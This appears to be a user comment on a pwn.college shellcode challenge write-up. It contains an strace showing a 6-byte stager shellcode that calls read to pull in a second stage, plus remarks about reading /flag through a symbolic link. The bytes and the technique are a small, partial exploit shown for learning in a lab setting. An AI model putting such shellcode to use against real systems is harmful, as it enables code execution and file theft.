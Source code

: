 credit - anonymous user comment on www.https://j-shiro.github.io/p/pwncollege_note6/

Looking at the strace:

```
map(0x14440000, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0) = 0x14440000
write(1, "Mapped 0x1000 bytes for shellcod"..., 49) = 49
write(1, "Reading 0x6 bytes from stdin.\n", 30) = 30
write(1, "\n", 1) = 1
read(0, "R^P_\17\5", 6) = 6
write(1, "This challenge is about to execu"..., 60) = 60
write(1, "\n", 1) = 1
write(1, "      Address      |            "..., 90) = 90
write(1, "\n", 1) = 1
write(1, "--------------------------------"..., 90) = 90
write(1, "\n", 1) = 1
write(1, "0x0000000014440000 | ", 21) = 21
write(1, "52 ", 3) = 3
write(1, " | push rdx\n", 12) = 12
write(1, "0x0000000014440001 | ", 21) = 21
write(1, "5e ", 3) = 3
write(1, " | pop rsi\n", 11) = 11
write(1, "0x0000000014440002 | ", 21) = 21
write(1, "50 ", 3) = 3
write(1, " | push rax\n", 12) = 12
write(1, "0x0000000014440003 | ", 21) = 21
write(1, "5f ", 3) = 3
write(1, " | pop rdi\n", 11) = 11
write(1, "0x0000000014440004 | ", 21) = 21
write(1, "0f ", 3) = 3
write(1, "05 ", 3) = 3
write(1, " | syscall \n", 12) = 12
write(1, "\n", 1) = 1
chmod("f", 004) = -1 EPERM (Operation not permitted)
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xffffffffffffffff} ---
+++ killed by SIGSEGV (core dumped) +++
```

The first stage calls syscall with rax as 0, allowing for more bytes to be read in. I'm assuming the 10 nop instructions. I'm not sure what the nop instructions for the 2nd stage are for though but then using the symbolic link to read the /flag file is great!

